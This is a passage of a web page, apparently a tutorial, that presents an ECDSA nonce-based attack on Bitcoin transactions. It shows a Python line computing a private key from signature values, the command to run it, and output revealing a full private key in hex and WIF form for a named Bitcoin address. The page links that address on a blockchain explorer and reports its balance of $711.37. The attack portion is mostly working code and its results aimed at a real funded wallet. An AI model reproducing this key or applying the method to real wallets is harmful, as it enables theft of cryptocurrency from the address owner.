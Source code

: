 
print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>The script will calculate the private key using the formula:</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>Let’s run the script:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-48.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-978"></figure>



<p><code>PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">Let’s open bitaddress</a></strong>&nbsp;and&nbsp;check:</p>



<pre class="wp-block-code"><code>ADDR: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG
WIF:  KytZsDHWSqKo9YuWTxwmM5D4g511TsLubF3pF7WgXfg3MTG1GfKa
HEX:  4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/002.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-755"></figure>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p><a href="https://www.blockchain.com/btc/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG">https://www.blockchain.com/btc/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</a></p>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p><code>Private Key Found!</code></p>



<figure class="wp-block-image"><a href="https://www.blockchain.com/btc/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG" target="_blank" rel="noreferrer noopener"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-16-1024x449.png" alt="Implementing the Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE) from the ECDSA signature when the bitcoin blockchain transaction is critically vulnerable" class="wp-image-781"></a><figcaption><code><strong>www.blockchain.com/btc/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</strong></code></figcaption></figure>



<p><code>BALANCE: $ 711.37</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity">

